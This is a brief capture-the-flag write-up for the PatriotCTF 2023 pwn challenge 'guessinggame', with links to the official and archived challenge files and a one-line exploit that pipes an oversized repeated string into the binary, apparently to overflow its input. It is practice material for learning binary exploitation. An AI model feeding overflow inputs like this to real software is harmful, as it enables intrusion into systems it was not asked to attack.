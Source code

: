 # PatriotCTF 2023

## Overview


### Original Files
[Official Repo](https://github.com/MasonCompetitiveCyber/PatriotCTF2023/tree/main/pwn/guessinggame)

### Archived
[Archive CTF](https://github.com/sajjadium/ctf-archives/blob/main/ctfs/PatriotCTF/2023/pwn/guessinggame/guessinggame)

[Expploit](https://github.com/MasonCompetitiveCyber/PatriotCTF2023/tree/main/pwn/guessinggame#:~:text=python3%20%2Dc%20%22print(%27pctf%27*76)%22%20%7C%20./guessinggame)


## Exploit
```
python -c "print('pctf'*76)" | ./guessinggame
```

